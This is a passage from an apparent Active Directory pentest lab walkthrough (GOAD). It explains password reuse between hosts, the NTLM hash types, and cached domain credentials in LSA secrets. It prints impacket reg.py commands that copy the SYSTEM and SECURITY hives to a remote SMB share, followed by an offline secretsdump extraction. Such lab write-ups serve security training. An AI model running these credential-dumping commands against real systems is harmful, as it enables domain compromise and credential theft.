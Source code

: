 - As we can see the local administrator password NT hash we extracted from castelblack's sam database is the same as the north.sevenkingdoms.local administrator NT hash.

- Here the password reuse between castelblack and winterfell give us the domain administrator power on the north domain. 

> LM/NT/NTLM/NetNTLMv1/NetNTLMv2 what's the difference ? <br>
> There is a lot of confusion between the hash names and this could be very disturbing for people when they begin in the active directory exploitation.
> - LM : old format turned off by default starting in Windows Vista/Server 2008
> - NT (a.k.a NTLM) : location SAM & NTDS : This one is use for pass the hash (i still often use the generic term ntlm to call this, sry) 
> - NTLMv1 (a.k.a NetNTLMv1) : Used in challenge/response between client and server -> can be cracked or used to relay NTLM
> - NTLMv2 (a.k.a NetNTLMv2) : Same as NetNTLMv1 but improved and harder to crack   -> can be cracked or used to relay NTLM
{: .prompt-info }

## LSA (Local Security Authority) secrets And Cached domain logon information

- When your computer is enrolled on a windows active directory you can logon with the domain credentials.
- But when the domain is unreachable you still can use your credentials even if the domain controler is unreachable.
- This is due to the cached domain logon information who keep the credentials to verify your identity.
- This is stored on C:\Windows\System32\config\SECURITY (available on HKLM\SECURITY)
- Just like for the sam database you will need the system file located at C:\Windows\System32\config\SYSTEM  and is available on the registry at HKLM/SYSTEM.

```bash
reg.py NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SYSTEM' -o '\\192.168.56.1\share'
reg.py NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SECURITY' -o '\\192.168.56.1\share'
```

- And extract the contain offline

```bash
secretsdump -security SECURITY.save -system SYSTEM.save LOCAL
```

![lateral_lsa_secrets_and_cache.png](/assets/blog/GOAD/lateral_lsa_secrets_and_cache.png)
